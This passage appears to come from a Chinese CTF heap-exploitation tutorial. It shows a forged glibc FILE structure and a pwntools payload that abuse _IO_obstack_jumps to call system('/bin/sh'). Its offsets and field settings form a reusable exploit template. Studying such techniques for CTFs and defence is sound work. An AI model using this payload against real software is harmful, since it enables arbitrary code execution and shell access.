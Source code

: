 控制其如下即可：

```c
  file = {
    file = {
      _flags = 0,
      _IO_read_ptr = 0x451, // largebin attack打_IO_list_all会使得这里留下size，不用理会
      _IO_read_end = 0x0,
      _IO_read_base = 0x1, // 偏移0x18
      _IO_write_base = 0x0, // 偏移0x20
      _IO_write_ptr = 0x1, // 偏移0x28
      _IO_write_end = 0x0, // 偏移0x30
      _IO_buf_base = 0x7f2b96a8ed70 <__libc_system>, // 偏移0x38，设置为要执行的函数
      _IO_buf_end = 0x0,
      _IO_save_base = 0x7f2b96c16678 "/bin/sh", // 偏移0x48，设置为要执行函数的参数
      _IO_backup_base = 0x1, // 偏移0x50
      _IO_save_end = 0x0,
      _markers = 0x0,
      _chain = 0x0,
      _fileno = 0,
      _flags2 = 0,
      _old_offset = 0,
      _cur_column = 0,
      _vtable_offset = 0 '\000',
      _shortbuf = "",
      _lock = 0x0,
      _offset = 0,
      _codecvt = 0x0,
      _wide_data = 0x0,
      _freeres_list = 0x0,
      _freeres_buf = 0x0,
      __pad5 = 0,
      _mode = 0,
      _unused2 = '\000' <repeats 19 times>
    },
    vtable = 0x7f2b96c553e0 <_IO_obstack_jumps+32> // 偏移0xd8，设置为_IO_obstack_jumps + 0x20
  },
  obstack = 0x563d5ff8e7f0 // 偏移0xe0，设置为该chunk的地址
}
```

`payload`例：

```python
fake_IO = p64(0)*3
fake_IO += p64(1)
fake_IO += p64(0)
fake_IO += p64(1)
fake_IO += p64(0) 
fake_IO += p64(libc.sym['system']) # 要执行的函数
fake_IO = fake_IO.ljust(0x48, b'\x00') + p64(next(libc.search(b'/bin/sh\x00'))) # 函数参数
fake_IO += p64(1)
fake_IO = fake_IO.ljust(0xd8, b'\x00') + p64(_IO_obstack_jumps + 0x20)
fake_IO = fake_IO.ljust(0xe0, b'\x00') + p64(chunk_address) # 该chunk地址
```
